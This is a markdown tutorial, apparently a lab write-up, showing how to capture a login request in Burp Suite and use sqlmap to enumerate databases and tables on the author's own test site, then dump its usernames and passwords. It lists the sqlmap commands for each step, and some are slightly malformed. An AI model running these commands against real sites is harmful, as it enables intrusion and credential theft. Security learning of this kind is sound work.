 ### 1.SQL-INJECTION USING SQLMAP TOOL

Using SQLMAP tool and Burp suite we are going to attack and retreat data from our created website(http://rafi.host/index.php)

Check for SQL Vulnerablity in targeted website if yes then proceed with following process use simple payloads to make sure site is vulnerable.

####Step-1

Open Browser and take your targeted website and give some random username and password and wait to hit login


![image](/screenshots/1.png)

####Step-2
 when i click the submit button just i did capture the requst with Burpsuit feature.

####Step-3
 After capture the request, just save the result into a test file using right click on request you will see save item option save with a random name.

####step-4 
Now open terminal tpye ls to see your test file saved or not if it save now you are ready to do SQLI.

####Step-5
Now can run the SQlmap tool by using this command.

![image](/screenshots/2.png)

command:-
***
sqlmap -r fakebook http://rafi.host/index.php --dbs  
***
 #### Note: 
 In command fakebook is my saved file using burp and the URL that our target URL --dbs means databases.


 you want to know how to use sqlmap u can just type -h for help it show more commands and its uses 

 #### Step-6
  First observe carefully you will get so many requests and finally you will get Databases list,which is stored in target website.

![image](/screenshots/5.png)

#####Now we got database list:

 1.information_schema
 2.user 


####Step-7 
Now you can collect the tables list which is stored in databases by using this command.

command:- 
***
 sqlmap -r fakebook http://rafi.host/index.php -D user --tables 
 ***

#### Note: 
In command user means we are asking the tool to fetch tables from that database.

Wow you got tables,now 

 1.user
 2.users

![image](/screenshots/9.png)

#### Step-8 
Now you need to find the columns for that tables i will select users table.

command:-
***
   sqlmap -r fakebook http://rafi.host/index.php -D user -T users ---columns
   ***

   #### Note: 
    Users means in tables i have slected that to see its columns you can use any one of it.

![image](/screenshots/4.png) 
 
 #### Step-9 
 Now we get the list of columns, if you want to read the columns, use this command.

 command:-
 ***
sqlmap -r fakebook http://rafi.host/index.php -D user -T users -C id,password,username --dump
***

 ![image](/screenshots/6.png)

 Now you can see all ids,passwords,usernames using those you can login in our target page you cracked it sucessfully BOOM!